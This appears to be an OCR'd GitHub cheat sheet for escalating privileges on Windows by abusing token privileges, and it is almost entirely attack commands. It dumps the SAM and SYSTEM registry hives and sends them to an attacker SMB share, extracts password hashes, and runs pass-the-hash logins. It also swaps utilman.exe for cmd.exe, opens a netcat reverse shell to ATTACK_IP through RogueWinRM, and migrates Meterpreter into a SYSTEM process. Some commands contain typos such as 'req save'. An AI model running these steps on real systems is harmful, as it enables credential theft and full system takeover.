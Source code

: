 # Privilege check command: whoami /priv

# Examples of dangerous privileges:

## SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

#### cd /

#### mkdir temp

#### cd temp

#### req save hklm\system c:\temp\system

#### req save hklm\sam c:\temp\sam

#### download sam

#### download system

#### 2: Create SMB Server on attacking machine

#### 1: mkdir share

#### 2: python3 impacket-smbserver.py -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

#### copy c:\users\user\sam.hive \\ATTACK_IP\public\

#### copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

 - impacket-secretsdump -sam sam.hive -system system.hive LOCAL

## OR 

 - pypykatz registry --sam sam system

#### 5: Pass-The-Hash Attack (PtH)

#### python3 impacket-psexec.py -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.

## Alternate Method to transfer the Hives: reg.py  remotely on Linux

 - python smbserver.py -smb2support share /tmp

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SAM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SYSTEM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SECURITY' -o '\\attacker ip\share'

## Alternate Method: SeBackupPrivilegeUtils https://github.com/giuliano108/SeBackupPrivilege

### Usage:

 - Import-Module .\SeBackupPrivilegeUtils.dll

 - Import-Module .\SeBackupPrivilegeCmdLets.dll

 - Set-SeBackupPrivilege

 - Get-SeBackupPrivilege

## Alternate Method: Robocopy

 - robocopy C:\Users\Administrator\Desktop C:\Users\Public root.txt /B

 - type C:\Users\Public\root.txt

## SeTakeOwnership

#### Essentially, we can take ownership of a service running as SYSTEM and elevate privileges.

### Example: Utilman.exe

#### 1: takeown /f c:\windows\system32\utilman.exe

#### 2: icacls c:\windows\system32\utilman.exe /grant USER:F

#### 3: copy cmd.exe utilman.exe

#### 4: Trigger uitlman : Lock screen, click ease of access

## SeImpersonate/SeAssignPrimaryToken

### A lot of potato exploits work with these privileges, so in our example we will talk about RoguePotato.

#### RogueWinRM.exe exploit

#### 1: Start listener

#### c:\path\to\roguewinrm\roguewinrm.exe -p "C:\path\to\nc64.exe" -a "-e cmd.exe ATTACK_IP PORT"

## Tool: PrintSpoofer

## Link: https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

## SeDebug Privilege

### Tools: Meterpreter, https://github.com/decoder-it/psgetsystem

### Steps:

#### 1) Get-Process winlogon (Check for a specific SYSTEM level process running on the machine)

#### 2) Download and execute Meterpreter on target machine to connect to us

#### 3) ps (Check for processes running as SYSTEM. Example: winlogon.exe)

#### 4) migrate PID (Take ownership of the elevated process)

#### 5) VOILA!

## TIP: If the SeDebug Privilege is disabled, we can enable it with psgetsystem powershell script (Link attached at the top of this attack's explanation)
